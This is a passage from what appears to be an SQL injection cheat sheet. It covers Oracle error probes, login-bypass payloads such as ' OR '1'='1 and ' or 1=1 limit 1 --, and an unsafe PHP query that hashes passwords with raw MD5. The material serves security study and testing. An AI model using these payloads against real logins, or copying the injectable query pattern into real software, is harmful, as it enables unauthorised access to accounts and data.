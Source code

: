 | Oracle              | `ORA-01756: quoted string not properly terminated`                                       | `'`             |
| Oracle              | `ORA-00923: FROM keyword not found where expected`                                       | `1'`            |



## Authentication Bypass

In a standard authentication mechanism, users provide a username and password. The application typically checks these credentials against a database. For example, a SQL query might look something like this: 

```SQL
SELECT * FROM users WHERE username = 'user' AND password = 'pass';
```

An attacker can attempt to inject malicious SQL code into the username or password fields. For instance, if the attacker types the following in the username field:

```sql
' OR '1'='1
```

And leaves the password field empty, the resulting SQL query executed might look like this:

```SQL
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '';
```

Here, `'1'='1'` is always true, which means the query could return a valid user, effectively bypassing the authentication check.

:warning: In this case, the database will return an array of results because it will match every users in the table. This will produce an error in the server side since it was expecting only one result. By adding a `LIMIT` clause, you can restrict the number of rows returned by the query. By submitting the following payload in the username field, you will log in as the first user in the database. Additionally, you can inject a payload in the password field while using the correct username to target a specific user. 

```sql
' or 1=1 limit 1 --
```

:warning: Avoid using this payload indiscriminately, as it always returns true. It could interact with endpoints that may inadvertently delete sessions, files, configurations, or database data.

* [PayloadsAllTheThings/SQL Injection/Intruder/Auth_Bypass.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt)


### Raw MD5 and SHA1

In PHP, if the optional `binary` parameter is set to true, then the `md5` digest is instead returned in raw binary format with a length of 16. Let's take this PHP code where the authentication is checking the MD5 hash of the password submitted by the user.

```php
sql = "SELECT * FROM admin WHERE pass = '".md5($password,true)."'";
```
